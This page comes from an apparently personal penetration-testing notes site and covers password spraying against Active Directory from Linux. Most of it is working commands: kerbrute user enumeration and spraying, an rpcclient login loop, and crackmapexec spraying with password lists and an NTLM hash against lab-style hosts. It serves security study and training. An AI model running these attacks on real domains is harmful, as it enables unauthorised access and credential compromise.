

repository: amandaguglieri/hackinglife · page: active-directory-from-linux-attacks/index.html · generator: mkdocs

---
title: Attacking Active Directory from Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
# Attacking Active Directory from Linux

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerate with ldap](ldap.md)
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)


## Password spraying attack

Steps:

- Build a user list (with previous techniques)
- Consider your password list.

From previous section we used kerbrute to build a userlist:

```
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```


### kerbrute

```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```

### rpcclient

```shell-session
for u in $(cat valid_ad_users);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

An important consideration is that a valid login is not immediately apparent with rpcclient, with the response Authority Name indicating a successful login. We can filter out invalid login attempts by grepping for Authority in the response. 

### crackmapexec

```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_ad_users -p Password123 | grep +

# Spray password with a user.txt and a password.txt
crackmapexec smb 172.16.7.3 -u users.txt -p passwords.txt --continue-on-success --no-bruteforce

# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```
